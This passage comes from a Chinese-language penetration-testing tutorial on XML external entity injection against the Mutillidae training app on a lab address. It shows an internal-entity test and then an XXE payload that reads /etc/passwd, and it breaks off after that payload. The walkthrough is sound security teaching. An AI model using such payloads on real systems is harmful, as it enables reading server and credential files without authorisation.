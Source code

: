 ## 6.3 利用 XML 外部实体注入

XML 是主要用于描述文档或数据结构的格式，例如，HTML 是XML 的实现，它定义了页面和它们的关系的结构和格式。

XML 实体类似于定义在 XML 结构中的数据结构，它们中的一些能够从文件系统中读取文件或者甚至是执行命令。

这个秘籍中，我们会利用 XML 外部实体注入漏洞来在服务器中执行代码。

### 准备

建议你开始之前遵循上一个秘籍中的步骤。

### 操作步骤

1.  浏览`http://192.168.56.102/mutillidae/index.php?page=xmlvalidator.php`。

2.  上面写着它是个 XML 校验器。让我们尝试提交测试示例来观察发生什么。在 XML 输入框中，输入` <somexml><message>Hello World</message></ somexml>`，并点击` Validate XML`。

    ![](img/6-3-1.jpg)
    
3.  现在让我们观察它是否正确处理了实体，提交系列代码：

    ```xml
    <!DOCTYPE person [  
        <!ELEMENT person ANY>  
        <!ENTITY person "Mr Bob"> 
    ]> 
    <somexml><message>Hello World &person;</message></somexml>
    ```
    
    ![](img/6-3-2.jpg)
    
    这里，我们仅仅定义了实体并将值`"Mr Bob" `赋给它。解析器在展示结果时解释了实体并替换了它的值。
    
4.  这就是内部实体的使用，让我们尝试外部实体：

    ```xml
    <!DOCTYPE fileEntity [  
        <!ELEMENT fileEntity ANY>  
        <!ENTITY fileEntity SYSTEM "file:///etc/passwd"> 
    ]> 
    <somexml><message>Hello World &fileEntity;</message></somexml>
    ```
    